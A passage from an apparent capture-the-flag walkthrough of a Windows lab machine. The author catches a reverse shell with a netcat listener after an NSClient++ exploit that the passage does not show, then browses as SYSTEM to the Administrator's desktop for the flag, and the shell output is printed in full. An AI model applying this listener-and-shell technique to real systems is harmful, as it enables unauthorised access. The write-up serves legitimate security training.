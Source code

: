 Looks like my reverse shell is working and so I'm successfully connected. Because I am the system user after running the expploit I browse to the Administrators home directory and open the desktop to capture the flag.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(eMVee@kali)-[~]
└─$ nc -lvp 1234 
listening on [any] 1234 ...
10.0.2.27: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.27] 49315
Microsoft Windows [Version 6.2.9200]
(c) 2012 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>cd c:\
cd c:\

c:\>cd Users
cd Users

c:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is B00F-4DBD

 Directory of c:\Users

11/04/2021  12:49 PM    <DIR>          .
11/04/2021  12:49 PM    <DIR>          ..
11/03/2021  09:03 PM    <DIR>          Administrator
07/26/2012  12:04 AM    <DIR>          Public
11/04/2021  07:51 PM    <DIR>          svc-postgres
               0 File(s)              0 bytes
               5 Dir(s)  19,006,255,104 bytes free

c:\Users>cd Administrator
cd Administrator

c:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is B00F-4DBD

 Directory of c:\Users\Administrator

11/03/2021  09:03 PM    <DIR>          .
11/03/2021  09:03 PM    <DIR>          ..
11/03/2021  09:03 PM        59,016,632 apachehttpd.exe
10/22/2021  11:12 PM    <DIR>          Contacts
11/04/2021  08:39 PM    <DIR>          Desktop
11/02/2021  07:25 PM    <DIR>          Documents
10/22/2021  11:12 PM    <DIR>          Downloads
10/22/2021  11:12 PM    <DIR>          Favorites
10/22/2021  11:12 PM    <DIR>          Links
10/22/2021  11:12 PM    <DIR>          Music
10/22/2021  11:12 PM    <DIR>          Pictures
10/22/2021  11:12 PM    <DIR>          Saved Games
10/22/2021  11:12 PM    <DIR>          Searches
10/22/2021  11:12 PM    <DIR>          Videos
               1 File(s)     59,016,632 bytes
              13 Dir(s)  19,006,255,104 bytes free

c:\Users\Administrator>cd Desktop
cd Desktop

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~